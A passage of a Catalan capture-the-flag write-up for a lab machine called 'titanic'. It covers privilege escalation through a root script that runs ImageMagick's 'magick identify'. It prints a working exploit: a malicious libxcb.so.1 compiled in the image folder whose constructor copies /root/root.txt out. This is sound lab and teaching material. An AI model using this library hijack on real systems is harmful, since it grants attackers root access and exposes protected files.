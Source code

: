 
Ara que som dins, hem de veure la forma d'escalar privilegis dins el sistema per obtenir la root flag. Despés de provar vàries coses i donar moltes voltes, veig que hi ha un script:

```
developer@titanic:/opt/scripts$ cat /opt/scripts/identify_images.sh
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

## Què fa aquest script?

1. **Canvia de directori** a on hi ha les imatges.

2. Buida el fitxer `metadata.log`.

3. Utilitza `find` per buscar `.jpg` i executa `magick identify` sobre cadascuna.


I aquí està el kit de la qüestió: `magick identify` **és el binari vulnerable** perquè:

- Es carrega com a root.

- Carrega `.so` (shared objects) automàticament.

- Prioritza rutes locals si no està protegit.


Llavors veiem que quan `magick identify` s'executa sobre qualsevol `.jpg`, intenta carregar `libxcb.so.1` si hi ha funcions relacionades amb la GUI (o les fonts o altres backends que la necessiten), i si aquesta `.so` està a la mateixa carpeta que la imatge, **la carrega directament**.

Per tant, ara anem a la carpeta on es troba la imatge usada per l’script: ``cd /opt/app/static/assets/images`` 

Compilem una biblioteca compartida (`.so`) falsa amb codi maliciós:

```
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  exquisite-dining.jpg  favicon.ico  home.jpg  luxury-cabins.jpg  metadata.log
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/rootflag");
    exit(0);
}
EOF
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  exquisite-dining.jpg  favicon.ico  home.jpg  libxcb.so.1  luxury-cabins.jpg  metadata.log

```

